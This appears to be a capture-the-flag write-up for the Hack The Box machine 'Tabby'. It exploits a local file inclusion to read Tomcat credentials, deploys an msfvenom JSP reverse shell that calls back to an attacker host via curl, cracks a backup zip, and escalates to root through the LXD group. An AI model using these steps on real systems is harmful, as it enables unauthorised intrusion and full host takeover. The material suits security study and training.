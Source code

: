 ## Tabby

Difficulty: Easy

### User Flag

#### Foothold

```
rustscan -a 10.10.10.194 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/a17ab37b-5c2d-4b89-bc56-f2e4b02c7e4d)

<br>

Looking through the website on port 80, the NEWS button lead us to "megahosting.htb". Add this to your hosts file.

![news php](https://github.com/b1d0ws/OSCP/assets/58514930/bd41e244-69f2-4237-90d4-d666c995f803)

<br>

This page apparently reads a statement with the "file" parameter. The parameter is vulnerable to LFI.

![fileStatement](https://github.com/b1d0ws/OSCP/assets/58514930/78cca597-21e9-47ef-b3a7-2a9d3dcc5828)

![firstLFI](https://github.com/b1d0ws/OSCP/assets/58514930/270248ff-e6c2-4f8f-aa05-925133da6ab8)

<br>

If we look to port 8080, we see that apache tomcat is being used. We can explore LFI to find the file containing tomcat users.  

Hacktricks indicated to us that this path is _/usr/share/tomcat9/etc/tomcat-users.xml_.

![port8080](https://github.com/b1d0ws/OSCP/assets/58514930/71410b99-f1af-46f6-ba88-e4a43d933cea)

![tomcatUsers](https://github.com/b1d0ws/OSCP/assets/58514930/3a7e0857-d09b-4f99-b5e6-73a5fb041814)

<br>

We can use this user to get a reverse shell in tomcat with the commands below:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.110.14.11 LPORT=3333 -f war -o revshell.war

curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/revshell"

http://tabby.htb:8080/revshell
```

![revShell](https://github.com/b1d0ws/OSCP/assets/58514930/32ed5a5a-1a73-43cc-a2a0-1c19410de62a)

<br>

#### Ash User

Inside /var/ww/html/files exists a backup file. Transfer to you Kali machine and crack the password with zip2john. This password can be used to login as ash user.

![crackingZip](https://github.com/b1d0ws/OSCP/assets/58514930/c3f93221-60c9-473d-aef1-25601e7f819e)

### Root Flag

Enumerating the machine, ash user blongs to lxd group.

![groups](https://github.com/b1d0ws/OSCP/assets/58514930/88149510-318e-4e6b-9537-0cf6120c6cc2)

<br>

We can follow [this guide](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) to privilege escalate.

```bash
# You user belongs to lxd group
groups
ash adm cdrom dip plugdev lxd

# Just follow the first method to get root
# https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

# Kali
sudo su

# Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

# Clone repo
git clone https://github.com/lxc/distrobuilder

# Make distrobuilder
cd distrobuilder
make

# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# Create the container
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.1

# Upload lxd.tar.xz and rootfs.squashfs to the victim

# Victim
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image

# In case of error:
export PATH=/snap/bin:$PATH

lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

# If you find this error Error: No storage pool found. Please create a new storage pool
# Run lxd init and repeat the previous chunk of commands

lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

![privEsc1](https://github.com/b1d0ws/OSCP/assets/58514930/4242692f-3e8b-4b37-ab3f-a97eb6a645bb)

![privEsc2](https://github.com/b1d0ws/OSCP/assets/58514930/c26ac10f-e457-4360-a333-7e0bbec0f5cb)

![privEsc3](https://github.com/b1d0ws/OSCP/assets/58514930/4a5831a0-1509-41e5-91dc-236009086681)
